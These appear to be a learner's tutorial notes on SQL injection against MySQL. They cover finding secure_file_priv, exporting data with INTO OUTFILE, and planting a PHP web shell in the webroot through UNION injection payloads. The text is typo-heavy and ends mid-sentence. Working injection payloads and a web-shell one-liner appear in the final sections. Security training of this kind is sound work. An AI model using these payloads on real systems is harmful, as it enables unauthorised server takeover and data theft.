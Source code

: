So, let's how we can find out the value of secure_file_priv, we can use the query:
`SHOW VARIABLES LIKE 'secure_file_priv' `

MySQL global variable are stored in a table called [global_variable], and as per the documentation, this table has two columns variable_name and variable_value.

We have to select these two columns from that table in the INFORMATION_SCHEMA db. There are hundrends of global variables in a MySQL configuration, and we don't wnat to retrieve all of them.
We will filter the result to only show the secure_file_priv variable, using the WHERE.
The final SQL query is following:
`SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"`

Similar to other UNION injection queries, we can get the above query result with the following payload.
`cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -`

## SELECT INTO OUTFILE:
Now we have confirmed that our user should write files  to back-end server, let's try to do that using the SELECT .. INFO OUTFIEL statements.
The SELECT INTO OUTFILE statements can be used to write data form select queries into files.
`SELECT * from users INTO OUTFILE '/tmp/credentials';`

If we go to the back-end server and cat the file, we see the tables content, it also possible to directly SELECT string into files:
`SELECT 'this is a test' INTO OUTFILE '/tmp/text.txt';`
Then cat the file.
> [!TIP]
> Advanced file exports utilize the 'FROM_BASE64("bas64_data")' funtion in order to be able to write long/advanced file including binary.

## Writing files through SQL injection:
Let's try writing a text file to the webroot and verify if we write permission. The below query should write file written sucess to the /var/www/html/proof.txt file:
`select 'file written successfully!' into outfile '/var/www/html/proof.txt'`

> [!NOTE]
> To write a web shell, we must know the base web directory for the web server. One wat to find it to use load_file  to read the server configuration, like apache configuration found
> at /etc/apache/apache2.conf, in /etc/nginx/nginx.conf, or ISS configuration at %WinDir% \System32\Inetsrv\Config\ApplicationHost.config, or we can search online for other possible configuration locations.
> We may run fuzzing scan try to write files to dff possible web roots, usin the wordlist for [linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) ot for [windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt).

The UNION injection payload would be as follows:
`cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -`

## Writing a Web SHell:
Having confirmed write permission, we cna gfo ahead and write a PHP web shell to the webroot folder.
`<?php system($_REQUEST[0]); ?>`
We can reuse our previous UNION injection payload, and change the string to above, and the file name to shell.php:
`cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -`
This can be verified by browsing to the shell.php file an executing command via the 0 parameters with ?0=id our URL:
